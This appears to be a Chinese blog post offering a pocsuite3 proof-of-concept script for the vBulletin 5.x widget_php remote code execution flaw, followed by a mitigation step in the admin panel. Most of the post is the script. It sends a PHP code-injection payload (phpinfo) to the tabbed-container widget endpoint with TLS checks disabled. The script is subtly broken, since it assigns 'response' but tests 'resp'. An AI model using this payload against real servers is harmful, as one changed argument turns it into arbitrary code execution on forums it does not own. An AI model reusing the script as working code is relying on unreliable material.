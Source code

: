 ```yaml
---
title:vBulletin 5.x RCE 检测脚本
categories: [dev]
comments: true
---
```


#### 参考链接：利用vBulletin：“补丁失败的故事”
> https://blog.exploitee.rs/2020/exploiting-vbulletin-a-tale-of-patch-fail/


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pocsuite3.api import requests
from pocsuite3.api import register_poc
from pocsuite3.api import Output, POCBase, logger
from re import findall
import ssl

ssl._create_default_https_context = ssl._create_unverified_context

class TestPOC(POCBase):
    vulID = ''
    version = '5.x'
    author = ['南方有梦']
    vulDate = ''
    createDate = ''
    updateDate = ''
    references = ['']
    name = 'vBulletin 5.x RCE'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = ''
    desc = '''
    '''

    def _verify(self):
        result = {}
        target = '{u}/ajax/render/widget_tabbedcontainer_tab_panel'.format(u=self.url)
        data = "subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();"
        try:
            response = requests.get(url=target, data=data, verify=False)
            if resp.status_code == 200 and 'PHP API' in resp.text:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = target
        except Exception as e:
            #print(e)
            logger.error(f"connect target '{self.url} failed!'")
        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register_poc(TestPOC)
```
### 漏洞检测脚本 Github地址：

> https://github.com/hackgov/article/blob/master/vBulletin%205.x%20RCE.py

> #### 基于POCsuite3框架运行


#### 修复建议
`此修补程序将禁用您论坛中的PHP小部件，并可能破坏某些功能，但在vBulletin发布补丁之前，将使您免受攻击。`

> 转到vBulletin管理员控制面板。
> 单击左侧菜单中的“设置”，然后单击下拉菜单中的“选项”。
> 选择“常规设置”，然后单击“编辑设置”
> 查找“禁用PHP，静态HTML和广告模块呈现”，设置为“是”，点击“保存”